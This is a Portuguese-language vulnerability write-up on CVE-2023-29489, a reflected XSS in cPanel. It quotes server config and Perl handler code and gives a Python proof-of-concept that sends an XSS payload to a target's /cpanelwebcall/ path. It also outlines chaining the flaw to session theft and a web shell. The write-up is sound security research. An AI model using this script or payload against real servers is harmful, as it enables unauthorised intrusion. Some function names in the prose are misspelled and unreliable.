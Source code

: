 ```yaml
---
layout: post
title:  "CVE-2023-29489"
date:   2024-05-14
---
```


Tabela de conteúdo:
* Sumário
* Descrição
* Prova de Conceito
* Impacto
* Conclusão
* Referências

---

### Sumário

A CVE-2023-29489[1] trata-se de uma vulnerabilidade de Cross-Site Scripting (XSS)[2] refletido identificada no software de painel de controle de hospedagem cPanel[3], amplamente utilizado na web. A vulnerabilidade XSS permite que um atacante execute scripts maliciosos em uma página que está sendo acessada por outros usuários. O atacante não precisa estar autenticado.

Essa vulnerabilidade foi identificada em 26 de abril de 2023 pela equipe de segurança da Assetnote[4], uma empresa de segurança da Austrália. A vulnerabilidade impacta versões do cPanel anteriores a 11.109.9999.116 e foi corrigida nas versões 11.109.9999.116, 11.108.0.13, 11.106.0.18 e 11.102.0.31 ou em versões posteriores.

---

### Descrição

O cPanel é um software feito em Perl[5] com binários gerados a partir do código Perl. Baseado nos binários que podem ser acessados no diretório **/cgi-sys/** nas portas de gerenciamento, nota-se a existência de binários que eram códigos Perl e que são chamados remotamente por meio de solicitações HTTP.

Além dos binários dentro de **/cgi-sys/**, algumas funcionalidades e aplicativos da web do cPanel são atendidos por meio do binário cpsrvd. O binário cpsrvd é executado por padrão nas portas: 2082, 2083, 2086, 2087. Para isso, o cPanel utiliza as funcionalidades de proxy reverso do Apache[6] e a configuração para isso é encontrada em **/etc/apache2/conf/httpd/conf/**. Essas configurações de proxying e aliasse de scripts definem áreas potencialmente interessantes para ataques:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

O arquivo **Cpanel/Server/Handlers/Httpd.pm** possui uma lógica especifica referente a manipulação de caminhos. Isso permitiu que fossem mapeadas as superfícies de ataques. Dentro do httpd.pm existe um trecho de código que roteia todas as solicitações de um caminho que comece por **/panelwebcall** para uma função chamada **_server_cpanelwebcall** que por sua vez chama outra função, chamada **Chanel::Server::WebCalls::handle** com uma parte da URL como argumento:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


A função **_serve_cpanelwebcall** se parece com isso:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Que nos leva para a função **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

A função handle extrai um ID da solicitação e em seguida modifica a solicitação, removendo o ID. Se o ID não for válido, ele gera um erro indicando a solicitação inválida. Quando o erro acontece, a função **_httpd_invalid_params_err** é chamada, onde essa função cria uma exceção chamada **cpsrvd::BadRequest** que leva até o módulo **Cpanel::Server::Handlers::ErrorPage**. Dentro desse módulo existe uma variável chamada **message_html**. A vulnerabilidade está nessa variável, pois ela não está sanitizando a mensagem de erro ao inserir o ID inválido.

---

### Prova de Conceito

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impacto

O impacto dessa vulnerabilidade permite que um invasor execute códigos JavaScript arbitrários, sem estar autenticado, em quase todas as portas de um servidor web que utiliza o cPanel.  Isso ocorre devido as regras de proxy, onde é possível através das portas 80 e 443 acessar o diretório /cpanel/, pois estará sendo redirecionado para as portas de gerenciamento do cPanel pelo Apache.

O fato das portas de gerenciamento do cPanel serem vulneráveis a XSS permite que um atacante roube a sessão de um usuário legítimo, uma vez agindo como um usuário autenticado, é possível fazer upload de uma web shell[7] e obter a execução remota de comandos no servidor.

A vulnerabilidade apresenta uma ameaça significava a segurança da aplicação e é altamente recomendado que os administradores de sistemas atualizem para a versão mais recente.

--

### Conclusão

A versão cPanel aqui discutida, tem uma superfície vulnerável, onde essa vulnerabilidade permite que o atacante execute scripts maliciosos em páginas acessadas pelos usuários comuns, onde o atacante não precisa estar autenticado para explorá-la. A vulnerabilidade é explorável independente da porta do cPanel (2080, 2082, 2083, 2086) estar exposta externamente ou não.   A exploração dessa vulnerabilidade pode resultar na execução de códigos JavaScript arbitrário em praticamente todas as portas de um servidor web que utilize o cPanel. Isso ocorre devido as regras de proxy que permitem o acesso ao diretório **/cpanel/** mesmo nas portas 80 e 443, redirecionando as solicitações para as portas de gerenciamento do cPanel devido os proxys do Apache.

A vulnerabilidade foi corrigida com patches disponíveis nas versões posteriores ao cPanel 11.109.9999.116. É fundamental que os administradores de sistemas atualizem seus sistemas para a versão mais recente do cPanel e implementem as correções disponíveis para mitigar as ameaças.

- Este artigo foi escrito por Lucas Katashi, atualmente trabalha como pentester e é apaixonado por Red-Team, gosta de codificar ferramentas e o Burp Suite é seu melhor amigo.

---

### Referências

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
